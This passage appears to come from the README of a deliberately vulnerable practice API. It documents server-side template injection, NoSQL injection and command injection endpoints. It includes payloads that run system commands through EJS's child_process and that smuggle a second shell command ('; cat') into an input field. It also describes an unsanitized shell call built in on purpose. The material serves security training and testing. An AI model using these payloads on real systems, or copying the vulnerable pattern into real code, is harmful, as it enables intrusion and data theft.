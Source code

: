 
### 4. Server-Side Template Injection (SSTI)

* **Endpoint:** `POST /api/ssti_render`
* **Field / Value:**

  ```json
  { "template": "The result is: <%= 99 * 11 %>" }
  ```
* **Exploit example:**

  ```json
  { "template": "Template says: <%= global.process.mainModule.require('child_process').execSync('whoami').toString() %>" }
  ```
* **Vulnerability:** The server renders user-supplied input using EJS, allowing execution of arbitrary template expressions and potentially OS-level code.
* **How to test:** POST the template payload. The server evaluates the expression and returns the result (e.g., `1089` for the multiplication example). More dangerous payloads may execute system commands.

---

### 5. NoSQL Injection (Conceptual)

* **Endpoint:** `POST /api/nosqli_lookup`
* **Field / Value:**

  ```json
  { "productId": "product_A1", "secret": false }
  ```
* **Vulnerability:** The endpoint performs loose comparisons or uses user input directly in logical checks. In a real NoSQL database, query operators (e.g. `{"secret": {"$ne": null}}`) or type-juggling could alter logic and bypass intended checks.
* **How to test:** Construct payloads that use operator-like objects (if the server deserializes them into query objects) and observe unintended results.

---

### 6. Command Injection

* **Endpoint:** `POST /api/command_injection`
* **Field / Value:**

  ```json
  { "target": "127.0.0.1; cat vulnerable_api.js" }
  ```
* **Vulnerability:** User input is concatenated into a shell command executed with `spawn('/bin/sh', ['-c', command])` without sanitization. Delimiters (`;`, `&&`, `|`) allow additional commands to run.
* **How to test:** POST the payload above. The server may execute the injected `cat` command and return the file contents in the response.

---

## 🛠️ Data Exposure & Manipulation
